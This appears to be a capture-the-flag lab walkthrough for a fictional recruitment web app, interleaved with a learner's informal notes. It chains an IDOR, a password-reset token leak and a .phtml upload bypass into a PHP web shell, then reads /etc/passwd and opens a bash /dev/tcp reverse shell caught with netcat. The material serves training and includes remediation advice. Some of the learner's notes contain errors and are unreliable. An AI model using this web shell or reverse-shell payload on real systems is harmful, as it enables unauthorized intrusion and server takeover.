

# 3Pentest: Web

Before touching the application, let's understand what we are working with. In any penetration test, the first phase is always reconnaissance; gathering as much information about the target as possible without making assumptions. You would never walk into a building you are hired to assess without first looking at the exterior, checking the doors, and reading the signs. The same principle applies here.

## **Port Scanning**

Let's start by discovering what services are running on the target. Open a terminal and run an Nmap scan:

Terminal

```bash
root@tryhackme:~# nmap -sV -sC -p- MACHINE_IP
Starting Nmap 7.80 ( https://nmap.org ) at 2026-03-27 16:40 GMT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for MACHINE_IP
Host is up (0.00015s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: RecruitX \xE2\x80\x94 Home
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 06:B2:88:D5:C7:67 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.54 seconds
```

We can notice four open ports. Port `22` is SSH, useful later if we obtain credentials. Port `80` is our target web application running on Apache. Port `3306` is MySQL, indicating the application uses a MySQL database on the backend and port `8080` showing Apache default page. This is valuable information; it means the application likely constructs SQL queries, and any input handling weaknesses could lead to SQL-related issues.

## **Exploring the Application**

Open your browser and navigate to `http://MACHINE_IP`. You should see the RecruitX landing page. Before clicking anything, take a moment to observe what is on the page. You will see a navigation bar with links to **Home**, **Jobs**, **Login**, and **Register**. There is also a footer that mentions "RecruitX v2.4."

opened up web browser, and went to the target IP address. before messing around and clicking anything on the target IP address’  landing page, take some time to look around first. there’s a navigation bar, with “home, jobs, login, register”, and there’s also a “footer” mentioning a version number.: RecruitX v2.4

Let's check the HTTP response headers as well:

Terminal

```bash
root@tryhackme:~# curl -I http://MACHINE_IP
HTTP/1.1 200 OK
Date: Fri, 27 Mar 2026 16:43:09 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=f05vg10cq16k3kq5vpurgpioqb; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

The headers confirm the server is running Apache with version `2.4.58`. The `PHPSESSID` cookie confirms PHP session management is in use. We now know the technology stack: **Apache + PHP + MySQL** - a classic LAMP configuration.

running the curl command (curl -I <ip add>) you can see the headers: you see apache, PIPSESSID, which confirms that there is “PHP session management in use”. These 3 things together like this can also be called a “classic LAMP configuration”. LAMP = Linix, Apache, MySQL, and PHP. these together, as the stack running the website, is the LAMP stack.

## **Directory Enumeration**

Now, let's discover what directories and files exist beyond what the navigation bar shows. We will use `Gobuster` with a common wordlist:

Terminal

```bash
root@tryhackme:~# gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://MACHINE_IP
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 21600]
/profile.php          (Status: 302) [Size: 0]
/login.php            (Status: 200) [Size: 15107]
/jobs.php             (Status: 200) [Size: 20288]
/uploads              (Status: 301) [Size: 314]
/data                 (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312]
/test                 (Status: 200) [Size: 705]
/includes             (Status: 301) [Size: 315]
/api                  (Status: 301) [Size: 310]
/logout.php           (Status: 302) [Size: 0]
/config               (Status: 301) [Size: 313]
/dashboard.php        (Status: 302) [Size: 0]
/register.php         (Status: 200) [Size: 17384]
/reset.php            (Status: 200) [Size: 14408]
/.php                 (Status: 403) [Size: 277]
Progress: 175328 / 175330 (100.00%)
===============================================================
Finished
===============================================================
```

- `/admin` - An admin panel exists, but it redirects to the login page. We will need credentials to access it.
    
    This output tells us a great deal. Let's break down the important discoveries:
    
- `/api` - An  endpoint is present. APIs often expose data in ways the frontend does not.
    
    API
    
- `/reset.php` - A password reset page. Reset mechanisms are frequently implemented insecurely.
- `/uploads` - An uploads directory. If we can upload files, this could be a path to code execution.
- `/profile.php` and `/dashboard.php` - These require authentication, so we need to be logged in to access them.

ran a gobuster, ‘dir’ for directory. -u http://<target-ip>, -w was dirbuster/directry-list.txt -x php -x php. /admin is an admin panel, but it redirects to the login page, meaning i guess that we have to login to use it.  there’s an ‘/api’, which “often expose data”. there’s a “reset.php”, which is a pass reset, and these are often misconfig’d, so has an exploit. “/upload” directory, so there’s a way to upload files, and this is always interesting. /profile.php and /dashboard.php both need authentication with passwords. all the intereseting directories where either code 200 OK or code 302.

## **Registering an Account**

Several pages require authentication. Let's log in using an account, so we can explore the application's features. Navigate to `http://MACHINE_IP/login.php` and log in with the following details:

- **Email:** testuser@fake.thm
- **Password:** Password123

**Note**: You can register and use any other account by registering at `http://MACHINE_IP/register.php`.

logging in with creds they gave me

After logging in, the application redirects you to `/dashboard.php`. You now see a dashboard showing information like `Open Positions`, `Total Applications` or an option to `Browse Jobs`, etc. Take note of the URL as you click around, particularly when viewing your own profile.

once logged in, when you click on your profile “test”, the URL goes to ‘/profile.php?id=6’

“browse open positions and browse jobs” both take you to jobs.php


## **Exploring the API**

Earlier, Gobuster found an `/api` endpoint. Let's investigate what it exposes:

Example Terminal

```bash
root@tryhackme:~# curl http://MACHINE_IP/api/
{"endpoints":["\/api\/user","\/api\/jobs","\/api\/applications"]}
```

The API helpfully lists its own endpoints. This is already an information disclosure issue in a production application; an unauthenticated user should not be able to discover internal API routes. Let's keep these in mind as we move into the next task.

so for t his, the command is “curl http://<targ IP>/api/   and the output is “{"endpoints":["\/api\/user","\/api\/jobs","\/api\/applications"]}”. also, it matters whether it’s “/api/” or with no slash “api” the two different commands give two different results.



Answer the questions below

What version of the Apache server is running?

Correct Answer

What database service is running on the target? 

Correct Answer

What is the path to the password reset page?

Correct Answer

IDOR

so far, i know that this web server is running a site on port 80. i know it’s linux, php, mysql, apache, LAMP. i know there’s an api with some endpoints. i know there the IDOR-looking thing when you check your profile at profile.php?id=6  and we’re logged in as ‘test’. 

Now that we have an authenticated session and know the application's structure, let's start looking for vulnerabilities. One of the most common and frequently overlooked flaws in web applications is **Insecure Direct Object Reference (IDOR)**.

Consider this analogy: you are staying in a hotel, and your room key is simply your room number 104. There is no electronic lock, no verification, just the number. What stops you from walking to room 105 and opening the door? Nothing. That is essentially what an IDOR vulnerability is: the application uses a predictable identifier to reference objects (user profiles, documents, orders) and does not verify whether the requesting user is authorized to access that specific object.

we are now in an “authenticated session”, because we are logged in as “test”, so we’ll now start looking for vulnerabilities. IDOR (Insecure Direct Object Reference), is a very common vuln, and overlooked just as commonly.Insecure Direct Object Reference is a web application flaw, that essentially lets anyone look at anyone elses’s stuff. i’m Assuming that means like, only authenticated people can do this, otherwise i don’t think they’d have the same identifier that’s being “insecurely referenced”. the example was youre in a hotel at room 104, if there’s no security at all, couldn’t you just simply walk over to 105 and walk in, if no one was there to stop you.

## **Finding the IDOR**

While logged in as your test user, navigate to your profile by clicking the button that’s showing your username at the top right in the dashboard (**Test** in this case). Look carefully at the URL in your browser's address bar:

`http://MACHINE_IP/profile.php?id=6`

The application references your profile using a numeric `id` parameter. Your account was the sixth one created, so your ID is `6`. The immediate question any penetration tester should ask is: What happens if I change that number?

you’re logged in as ‘test’. when you go to your profile page, the url changes to “`http://MACHINE_IP/profile.php?id=6".` as a Pentester, i should always ask myself “what happens if I change that 6 to a different number?”

## **Testing the Vulnerability**

Let's change the `id` parameter to `1` and see what happens. You can do this directly in the browser or with `curl`. In the browser, accessing the URL `http://MACHINE_IP/profile.php?id=1` would return this:

we test it out. change the 6 to a 1. we can either do this in the web browser itself. or with ‘curl’. in browser, this is what it looks like when you go to ‘http://<target-ip>/profile.php?=1   :


this is using curl:


**Extracting Cookies**

In this exercise, you will require your session cookie, which you can get by right-clicking anywhere on the page and selecting Inspect, as shown below:

we want the SESSION COOKIE. start by right-clicking anywhere on the page, and selecting “INSPECT”


first, right-click on page

click “inspect” → Storage → Cookies, Select target IP → look for SESSION COOKIE


Go to the `Storage` tab, then expand `Cookies` and select `http://MACHINE_IP`. You’ll see all cookies listed, look for the `PHPSESSID` cookie and copy its value.

PHPSESSID:"es3iujv1hq33dme337qfhj2l71”


So when you want to find the cookies: Right-Click Anywhere on Page → Inspect → Storage → Cookies → Target IP → cookie.

Let's also use `curl` so we can see exactly what comes back. Make sure to include your session cookie in the following command after `PHPSESSID=` value:

we use ‘curl’ with the session cookie i just got:


curl -s -b "PHPSESSID=es3iujv1hq33dme337qfhj2l71" "[http://10.145.158.140/profile.php?id=1](http://10.145.158.140/profile.php?id=1)" | grep "fw-semibold"
<div class="fw-semibold mt-1">Sarah Mitchell</div>
<div class="fw-semibold mt-1 mono">s.mitchell@recruitx.thm</div>
<div class="fw-semibold mt-1">March 24, 2026</div?

curl -s -b "PHPSESSID=es3iujv1hq33dme337qfhj2l71" "[http://10.145.158.140/profile.php?id=1](http://10.145.158.140/profile.php?id=1)" | grep "fw-semibold"


Terminal

```bash
root@tryhackme:~# curl -s -b "PHPSESSID=gs5ngd6duukc09agpdnj1o9tt2" "http://MACHINE_IP/profile.php?id=1" | grep "fw-semibold"
                        <div class="fw-semibold mt-1">Sarah Mitchell</div>
                        <div class="fw-semibold mt-1 mono">s.mitchell@recruitx.thm</div>
                        <div class="fw-semibold mt-1">March 24, 2026</div>
```

We just accessed the profile of user ID 1, **Sarah Mitchell**, who is an administrator. The application did not verify whether we are authorised to view this profile. It simply took the `id` value, queried the database, and returned the result.

so, here, i ran ‘curl’.  using the PHPSESSID, i got from “right-click→inspect→storage” and i changed “.php?id=6” to “id=1”. and I piped | the output of the curl command into grep “fw-semibold”.  and in the output, we see “sara mitchell, s.mitchell@recruitx.thm, and march 24, 2026. so, from the terminal 

Let's also check whether the API endpoint we discovered earlier has the same issue, and if it doesn't even require a session cookie:

now, i check if the “API endpoint” i saw earlier, has the same vulnerability as this. this is testing the IDOR of changing my profile IDs numerical value to a different number. for api, i think that means, we found that with th e’gobuster’ command. we saw ‘/api’. iits ‘curl -s’, with target ip + the IDOR. so user id 1, not 6. 

Terminal

```bash
root@tryhackme:~# curl -s "http://MACHINE_IP/api/user?id=1"
{"id":1,"name":"Sarah Mitchell","email":"s.mitchell@recruitx.thm","role":"administrator","created":"2026-03-24"}root@tryhackme:~# curl -s "http://MACHINE_IP/api/user?id=2"
{"id":2,"name":"James Crawford","email":"j.crawford@recruitx.thm","role":"hiring_manager","created":"2026-03-24"}
```


The API is even more revealing than the web page. It returns structured JSON with the user's name, email, role, and account creation date. By incrementing the `id` parameter from 1 through 5, we can enumerate every user in the system.

the ‘curl’ command, shows that, you can do the IDOR and just change the values for that parameter, and then, this also shows you that this specifically doesn’t even the Session Cookie., and that the API is more revealing than the web page. it shows structure JSON info, like, date created, name, email, role. and evey time we change the ‘id’ parameter’s value, we can see more and more accounts.

## **Why This Matters**

IDOR vulnerabilities are consistently ranked among the most common web application flaws. They occur because developers assume users will access only their own resources, an assumption that breaks the moment someone changes a URL parameter. The fix is straightforward: the server must verify that the currently authenticated user has permission to access the requested object. But in practice, this check is frequently missing.

we need to know this because IDOR vulnerabilities are CONSISTANTLY ranked among the most common web app flaws. IDOR vulnerabilities occur because developers/creators of the app, design the app thinking “a user is only going to access their own resources, and no one elses. 1 user has 1 permittied access action. so there’ s no security check to make sure a user can’t see the info of another user. as soon as someone changes the value of ‘id’ in the URL, thenyou’ve broken through the dev’s “security”. in theory, you would Force the server to verify if whoever the user is → has permission to see the thing they’ve asked to see. something should check ‘this user is allowed to access the file” or checki if that’s not true. but because there is No security check for that as a n IDOR, that’s exactly what can/does happen.

so far we’ve made sure there’s the IDOR., and we now have php session cookie. and are enumerating the api. and i thin id=1 is admin.

Answer the questions below

What is the name of the administrator user?

sara mitchell

What role does James Crawford hold?

what role does james haev?

We now know the administrator's email address: `s.mitchell@recruitx.thm`. Our next objective is to take over her account. Instead of trying to guess her password (which could take a long time and trigger account lockouts), let's examine the password reset mechanism. Password reset flows are one of the most commonly broken features in web applications because they are complex to implement securely, and developers often take shortcuts.

we know the admin is “`s.mitchell@recruitx.thm"` . the next step is taking over her account. we technically Could try to guess it, run it through hydra or something, but this could take a very log in, and also more than likely cause a account lockout. what we reallly want to actually do is, is look at that “password reset” mechanism. Password Reset’s are very commonly misconfigured and it one of the most commonly broken features in web apps, because they’re super complex to setup, and most devs want shortcuts.

## **Understanding the Reset Flow**

Navigate to `http://MACHINE_IP/reset.php`. You will see a simple form asking for an email address. Let's first test the flow with our own account to understand how it works. Enter `testuser@fake.thm` and submit the form.


This is our first major finding. In a properly designed application, the reset token would be sent to the user's email and would never be displayed on screen. But this application shows the token directly in the response. While this alone would let us reset our own password, the real question is: How is the token being shared with the user?


## **Analysing the Token**

Let's generate a few more tokens and look for patterns. Submit the reset form multiple times for your own account and record the tokens:

i hit Refresh. yes i do get a new reset token each time, but i don’t think they’re exactly those three shown as Attempts 1-3

- Attempt 1: `784512`
- Attempt 2: `291037`
- Attempt 3: `503648`

The tokens are six-digit numbers. They appear random, but the range is limited; there is only one million possible values (000000 to 999999). This is a weak token space. However, brute-forcing a million values might be slow. Let's look more carefully and try to reset the token for the administrator using their email address `s.mitchell@recruitx.thm`. We will get the following:

the Token are 6 digits. they’res a set amount of them. but values are random probably. we’ll know attempt the ‘reset password’ button the web page, and use ‘s.mitchell@recruitx.thm’, who’s an admin.


## **Resetting the Administrator's Password**

We now have everything we need. Let's use the token to reset Sarah Mitchell's password. Visit the reset URL, and it will ask for a new password:


use the token to reset s.mitchell’s password.


it goes through. you can see the “Password has been reset successfully” changed password too: Password123

Let's verify by logging in with the new password.


We are now logged in as the administrator. Let's take a moment to understand the chain so far: we used an IDOR to discover the administrator's email, then exploited a weak password reset mechanism that exposed tokens directly in the response. Neither vulnerability alone would have given us admin access, but chained together, they were devastating.

so, as of now, i’m logged in as an aministrator. how we got here, first, as a logged in ‘testuser’, i found the id IDOR, and saw the other users. from there, we used “reset.php”, whihch was a password resetting mechanism that was expposing tokens directky in the response.. if we only saw 1 and not the other, we wouldn’t be able to move forward

WHAT WENT WRONG

The password reset mechanism had three distinct flaws:

1. **Token displayed in response: The token should only be sent to the account owner's email, never displayed** on screen
2. **Weak token generation** - A six-digit numeric token has a small keyspace and is susceptible to brute-force attacks.
3. **No rate limiting** - The application did not limit the number of reset requests or token guesses.

1. the password reset mechanism was misconfig’d. the reset token was shown on screen, instead of being sent to the user’s email, never put on screen

1. the token could also have been figured out by brute-forcing. it might take a min, but it won’t take TOO long, because it’s only 6 digit numeric tokan, that has small keyspace

the 3. thing wrong with the app so far, was that the app doesn’t limit the amount of token gursses/reset requests

## **Exploring the Admin Dashboard**

Navigate to `http://MACHINE_IP/admin` using the browser where you are logged in as Sarah Mitchell. The admin panel exposes several management pages. Most of these are standard administrative functions, but one stands out 

immediately: `/admin/upload.php`. A file upload function in the hands of an administrator is a powerful feature, and from a penetration tester's perspective, it is a potential path to remote code execution.

the fact that there’s an ‘upload’ function, And your on admin, is very very interesting to look at. this is common to lead to remote code execution.


Logged in as Administrator, we go to the ADMINS dashboard, and that’s http:://<target IP/admin/      there’s several buttons, but the most interesting is the “Upload” function. all pentesters should think this is interesting.

## **Investigating the Upload Function**

Let's examine the upload page. Right-click on the `Upload` button and click `Inspect`, where you can inspect the client-side code:

this says you can inspect the ‘client-side code’ of the upload page, by  right-clicking the actual Upload button, and going to Inspect.


We can notice several important details. The form says it accepts PDF, DOCX, and image files. The `accept` attribute on the file input restricts file types, but this is a *client-side* restriction only. The browser enforces it, but a direct HTTP request can send whatever file type it wants. The page also reveals the upload destination: `/uploads/documents/`.


right-clicking the upload button, and Inspect, i can see ‘form action’, and then div class, when i open that ip, i get ‘input class’, and it says the type is file, the name is document, and it accepts ‘.pdf’, ‘.docx,.jpg,.png” required.  and, these restrictions are “client-side” restriction only, so, the browser will enforce it, but a direct HTTP request can send any file type it wants. this page also reveals ‘/uploads/documents/’.

## **Testing the Upload Restrictions**

Let's test whether the server enforces file type restrictions. First, we will try uploading a harmless text file to see how the application responds. In the AttackBox, enter the following command to create a text file:

i need to see if the server enforces file type restriction. i’ll try uploading a test text file first, to see how the app responds.

Terminal

```bash
root@tryhackme:~# echo "This is a test file" > test.txt
```

this had echo output that string, and it’s redirected to file ‘test.txt’, which was creaated during the command, not already created before this command


Once the file is created, upload it to the admin panel. Open the upload page, right-click on the file input, and select Inspect. In the HTML, remove the accept attribute by deleting it (backspace) so the browser no longer restricts file types. Now select and upload your file directly, bypassing the client-side restriction.


The server rejected the

```
.txt
```

file.


So there is some server-side validation. But how thorough is it? Let's test whether the server checks only the file extension or also the file content. We will create a PHP file by using the following command:

tried to upload ‘test.txt’, and the server DID catch it. so now i wanna test whether it checks ONLY the file extension type, or the actual contents of the file as well

Terminal

```bash
root@tryhackme:~# echo '<?php echo "PHP is executing"; ?>' > test.php
```

Once created, try to upload again. Still rejected. The application appears to be checking the final extension.

Let's try another common bypass using the `.phtml` extension, which Apache often processes as PHP:

Terminal

```bash
root@tryhackme:~# echo '<?php echo "PHP is executing"; ?>' > test.phtml
```

The `.phtml` extension was accepted. The application's file type filter blocks `.php` but does not account for alternative PHP extensions. This is a common oversight; developers create a blocklist of "dangerous" extensions, but miss less common ones that the server still processes as PHP.

we tried .txt, and .php and both failed. we tried ‘.phtml” and it worked.                       


we see this one go through. test.phtml   . so, server-side DOES verify file extention types, just not allof them i guess. and, the “File uploaded successfully” notification message, says WHERE it’s uploaded to. which is uploads/documents

Let's verify that our uploaded file executes by visiting the page `http://MACHINE_IP/uploads/documents/test.phtml`.


when we got a file to successfully upload, it gave a success message, and in it, told me the PATH to the uploade file. in the browser, i type in that path, and the page i get to is “PHP is executing”.

The server executed the PHP code and returned the output. We have confirmed that we can upload and execute PHP files on the server. In the next task, we will use this to gain remote code execution.

the file ‘test.phtml’ file we made, was php code saying “echo this string”, and, so when we uploaded test.phtml to the web server hosting the web page, it’s then just sitting there, and then, in my browser, i go to that directory of the web app/server, and also directly after that, i go to the file i uploaded. when the screen loads (it technically gets ran a lil bfore that, because, it’s the http response that the screen has to read before it can ‘load’ anything. so now, w ecan probably put reverse shell code into a .phtml file. and then, with a netcat listener up, we can just go to that  URL in the web browser, and when we do that, the .phtml  actually gets executed, and, so its executing a reverse shell connection with them.

Answer the questions below

What is the name of the PHP file responsible for handling file upload in the RecruitX web app?

upload.php

What HTML attribute on the file input is used to restrict selectable file extensions on the client side?

access7

Which alternative PHP extension bypassed the upload filter?

.phtml

—Remote Code Execution

We have confirmed that we can upload PHP files to the server and that the server will execute them. This is the point in the penetration test where all the previous steps come together. We started with nothing, no credentials, no knowledge of the application. Through enumeration, IDOR exploitation, password reset abuse, and admin panel access, we have reached a position where we can execute arbitrary code on the server.

so, now we know we can upload ‘.phtml’ files to the server, and, i know the server will execute the code in the file. we’ve gone from just an IP address, to now being able to run any command we want, with privileges. starting with enumeration, the nmap scan, IDOR exploirtation, we exploited the password reset mechanism, and we found the upload page in admin panel. 

## **Creating a Web Shell**

A web shell is a small script that accepts commands through HTTP parameters and executes them on the server. Let's create a simple one and save it as `shell.phtml`:

`<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";}
?>`

This script checks for a `cmd` parameter in the URL. If present, it passes the value to `shell_exec()`, which runs the command on the operating system and returns the output. Upload the file on the Admin panel `http://MACHINE_IP/admin/upload.php`.

## **Executing Commands**

Let's verify we have code execution by running a simple command:

Terminal

```bash
root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=whoami"
<pre>www-data</pre>root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)</pre>
```


We have remote code execution. The commands are running as `www-data`, which is the default user for the Apache web server on Ubuntu. Let's gather more information about the system:

so after i uploaded ‘shell.phtml’, as admin, it put the web shell php code on the server. now on my terminal, when i curl it, i get the output of the command i enter into ‘cmd’.

Terminal

```bash
root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=hostname"
<pre>example-hostame</pre>root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=uname+-a"
<pre>Linux example-hostame 6.8.0-1017-aws #18-Ubuntu SMP Wed Oct  2 20:17:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux</pre>

```

We can now see the hostname, kernel version, and execute any command on the system.


can’t see hostname but can see other

so, for executing commands, it’s about actively using the webshell, to do commands, mkae sure it works. so, in the URL, we swap ‘cmd’, with what we went. that’s the command. so above, we use id , it spits out the normal output of ‘id’. same for ‘whoami’.

## **Reading Sensitive Files**

Since we can read files on the server, a good first step is to check system files that list users. In Linux, `/etc/passwd` contains basic account information:

so, we know for sure that we can read files on the server, which required us to be able to execute commands.

Terminal

```bash
root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=cat+/etc/passwd" | grep -v "nologin"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2088  100  2088    0     0   398k      0 --:--:-- --:--:-- --:--:--  407k
<pre>root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dhcpcd:x:114:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
mysql:x:115:123:MySQL Server,,,:/nonexistent:/bin/false
</pre>
```


By utilising our web shell, we accessed `/etc/passwd` and identified system users. In a real-world scenario, this level of access would enable further enumeration of configuration files to extract database credentials and gain full access to the application's backend data.

after a few times of the shell not working properly, idk why, but i finally got it working. now, when i put the ‘etc/passwd’ cmd as the parameter, it actually did spit out the contents of /etc/passwd piped into grep -v “nologin”.

## **Obtaining a Reverse Shell**

A web shell works, but it is limited; each command is a separate HTTP request, there is no interactive session, and complex commands with special characters can be difficult to pass through URL parameters. Let's upgrade to a proper reverse shell.

as of right now, we have a Web Shell. these are just simply not as good as a real, proper reverse shell. web shell is seperated by HTTP requests for every single command. and trying to send any decently complicated command, with special characters, won’t work most of the time, because it’s using URL parameters.

First, set up a listener on your AttackBox:

Terminal

```bash
root@tryhackme:~# nc -lvnp 4444
listening on [any] 4444 ...
```

this is the netcat listener, waiting for the connection. this is “listening”, waiting for when, i ‘curl’ [http://shell.phtml?cmd=id<rev](http://shell.phtml?cmd=id<rev) shell code

In a second terminal, trigger the reverse shell through the web shell. We will URL-encode the payload to avoid issues with special characters:

now we call the listener, with curl. this is URL-encoded. i should remember to ENCODE THESE TYPES OF WEBSHELLS AS URL-encode

Terminal

```bash
root@tryhackme:~# curl "http://MACHINE_IP/uploads/documents/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/CONNECTION_IP/4444+0>%261'"
```

Back in your listener terminal:

the netcat listener now catches the rev shell connection. this is now a proper reverse shell

Terminal

```bash
root@tryhackme:~# nc -lvnp 4444
listening on [any] 4444 ...
Connection received on CONNECTION_IP 48268www-data@example-hostame:/var/www/html/uploads/documents$ whoami
www-datawww-data@example-hostame:/var/www/uploads/documents$
```


We now have an interactive shell on the target server. From here, a penetration tester would typically proceed to local enumeration and privilege escalation, but that is beyond the scope of this room.

## **Reading the Flag**

To confirm you have completed the engagement, read the flag file on the system:

Terminal

```bash
www-data@example-hostame:~$ cat /var/www/flag.txt
{REDACTED}
```

Answer the questions below

What user is the web shell running as?

Check

What is the hostname of the target server?

Check

What is the flag?

Check


—The Attack Chain

Let's take a step back and look at the full path we followed. In a penetration test report, you would document the entire chain of vulnerabilities, showing the client how each weakness contributed to the overall compromise. Here is our chain:

now that we’ve gotten the flag, we are essentially done, and move over to the penetration test report. we need to document every vulnerability, every step of the workflow, and the impact of every command. this is important to show the client how each vuln contributed to the overall compromise.

1. **Enumeration**: We discovered the application's technology stack (, , MySQL), its directory structure, an  endpoint, a password reset page, an uploads directory, and an admin panel.
    
    Apache
    
    PHP
    
    API
    

looking back at the pentest, we started in enumeration, and learned the target app’s tech stack is LAMP.

1. **IDOR (Task 3)**: The `/profile.php?id=` parameter and the `/api/user?id=` endpoint allowed us to enumerate all users, including the administrator's name and email address.

these 2 IDORs were used. profile.php?id=<value> and the api endpoint ‘/api/user?id=’. we got the admin’s email and name

1. **Weak Password Reset (Task 4)**: The reset mechanism displayed tokens directly in the HTTP response, allowing us to generate a token for the administrator and change her password.

the Password Reset function would actually show the HTTP response’s TOKEN displayed on the screen, and we used this to get the admin’s Token and change their password.

1. **Admin Panel Access (Task 5)**: Using the compromised administrator account, we accessed the admin panel and found a file upload function with an incomplete extension blocklist.

so once logged in as admin, there’s an upload page. php page. on the upload form, it’s filtered for file extensions. it rejects txt, and php. but it accepts ‘.phtml’. i was able to put php code in phtml, and it executes.

1. **Remote Code Execution (Task 6)**: We uploaded a PHP web shell using the `.phtml` extension, which bypassed the filter. This gave us command execution on the server and a path to a full reverse shell.

because .phtml is accepted, and is a type of PHP, so, we uploaded a web shell. we bypassed the filter using .phtml with this we gained command execution, and could create a proper reverse shell 

No single vulnerability in this chain led to full server compromise on it's own. The IDOR leaked user information but did not provide direct access. The password reset was exploitable but only useful because we already knew the admin's email. The upload filter had a bypass, but we needed admin credentials to reach it. It was the combination of these weaknesses that led to full server compromise.

there was several vulnerabilities in the targets network. we couldn’t have gotten the flag, if any one of these are missing. the IDOR did leak info, but we needed more for access. the pass reset only worked because we already knew sarah’s email. yes we uploaded the php web shell, but, we needed admin creds to even get there.

## **Remediation Summary**

If you were writing the report for this engagement, these are the remediation recommendations you would provide for each finding:

at the end of a penetration test, writing the report, you have to include your remediation recommendations. this is telling the client what to do to secure their network.

| **Vulnerability** | **Severity** | **Remediation** |
| --- | --- | --- |
| IDOR on user profiles and API | High | Implement server-side authorization checks on every request. Verify that the authenticated user has permission to access the requested resource. |
| Password reset token exposed in the response | Critical | Send reset tokens exclusively via email. Display only a generic confirmation message on the page. Use cryptographically random tokens of at least 32 characters. |
| Incomplete file extension blocklist | Critical | Use an allowlist rather than a blocklist. Only permit specific, expected extensions. Validate file content (MIME type) in addition to the extension. Store uploaded files outside the web root. |
| API endpoint disclosure | Medium | Remove the API index endpoint or restrict it to authenticated administrators. Do not expose internal route structures to unauthenticated users. |

Answer the questions below

How many distinct vulnerabilities were chained together in this engagement?

Check

What approach should be used instead of a blocklist when validating file uploads?

Check

—Conclusion

In this room, we walked through a complete web application penetration test, from the initial Nmap scan to remote code execution on the underlying server. Along the way, you practised the mindset that separates a good penetration tester from a great one: patience, observation, and the ability to connect findings across different parts of an application.

Let's recap the key lessons from this engagement:

- **Enumeration is everything.** The vulnerabilities we exploited were discoverable because we took the time to map the application's structure, headers, endpoints, and behaviour before attempting exploitation.

we did information gathering/enumeration/recon, and found out the app’s structure, headers, and endpoints.

- **Small flaws chain into big compromises.** No single issue here was exotic or particularly complex. , weak password resets, and upload bypasses are well-understood vulnerabilities. Their impact came from how they connected to each other.
    
    IDOR
    
- **Client-side restrictions are not security.** The file upload form used an `accept` attribute to restrict file types in the browser. The server-side check used a blocklist that missed alternative  extensions. Real security requires server-side validation with an allowlist approach.
    
    the upload function wasn’t secure, because it used “accept attribute”. did it in the browser, which is client-side. server-side used a blocklist, and didn’t include ALL the alternative file extensions. Better/Real security is having server-side validation of file extensions and an allowlist instead of blocklist. allow default blocks all Instead of what you put. block list is allow all by default and block only the ones you assign.
    
